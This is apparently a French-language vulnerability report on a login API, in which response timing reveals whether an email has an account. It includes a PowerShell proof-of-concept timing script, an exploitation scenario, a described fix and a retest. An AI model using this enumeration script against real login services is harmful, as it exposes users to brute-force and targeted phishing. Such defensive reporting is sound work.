




# NOM : Identification des comptes enregistrer en fonction du temps de reponse

Il est facile de savoir quelles sont les emails qui ont un compte en se basant sur le temsp de reponse.  

# DESCRIPTION

Lorsque l'attaquant essaye de se connecter avec un email qui n'existe pas dans notre base de donnees, le temps est de ~3 ms.Cependant, avec un email qui existe, l'operation prend ~280ms. Donc, il devient facile de savoir quels sont les emails existant dans notre base de donnees. 

Le message d'erreur et le code HTTP sont pourtant identiques dans les deux cas 401 ("Invalid email or password"). C'est uniquement la duree de la réponse qui trahit l'existence du compte.
Si l'email est inconnu, l'API répond immédiatement. Si l'email existe, elle exécute (bcrypt.compare). bcrypt est volontairement lent (coût 12, ≈ 280 ms).

La limite est de 10 échecs par IP sur 15 minutes, sans limite par email.

# LOCALISATION
 
Le vulnerabilite se trouve au niveau du fichier :
 src/services/auth.services.ts:20-34
La route touchee est : auth/login

# CRITERE : Elevée 

# SCENARIO d'EXPLOITATION

L'attaquant se constitue une liste d'emails à tester. Pour chaque email, il envoie une requête POST /auth/login avec un mot de passe quelconque puis il mesure le temps de réponse de chaque requête :
 - environ 3 ms : l'email n'est pas inscrit 
 - environ 280 ms : l'email possède un compte

Il obtient la liste des comptes existants et concentre ses attaques dessus

# PREUVE d'EXPLOITATION

Nous allons prouver l'existence de la vulnérabilité en comparant le temps de réponse pour deux emails :

Email existant : aminataingreen@gmail.com
Email inexistant : personne.inconnue.42@example.com
Mot de passe utilisé : "wrong-password" (faux dans les deux cas)

Script PowerShell utilisé (4 essais par email, pour rester sous la limite de 10 échecs) :

    $url = "http://localhost:3000/auth/login"
    $emails = @("aminataingreen@gmail.com", "personne.inconnue.42@example.com")
    $essais = 4
    foreach ($email in $emails) {
        $temps = @()
        for ($i = 1; $i -le $essais; $i++) {
            $body = @{ email = $email; password = "wrong-password" } | ConvertTo-Json
            $sw = [System.Diagnostics.Stopwatch]::StartNew()
            try { Invoke-WebRequest -Uri $url -Method Post -ContentType "application/json" -Body $body -UseBasicParsing | Out-Null }
            catch { $code = $_.Exception.Response.StatusCode.value__ }
            $sw.Stop()
            $temps += $sw.ElapsedMilliseconds
            Write-Host "$email  essai $i : $($sw.ElapsedMilliseconds) ms (HTTP $code)"
        }
        $moy = ($temps | Measure-Object -Average).Average
        Write-Host "==> $email : moyenne $([math]::Round($moy)) ms"
    }

Résultats obtenus avant correction :

On voit clairement que l'email existant prend entre 277ms et 538ms et l'email non existant autour de 3ms 

# IMPACT

Apres identification des emails ayant un compte, l'attaquant peut faire :
 - Du brute force 
 - Du fishing cibler 

# CORRECTION 

Avant

Apres 

Maintenant, que l'email ai un compte ou pas, il passera par bcrypt.compare

# RETEST

On constate que le temps de reponse est semblable donc l'attaquant ne peut plus se fier au temps de reponse comme moyen d'identifier les comptes existants.
 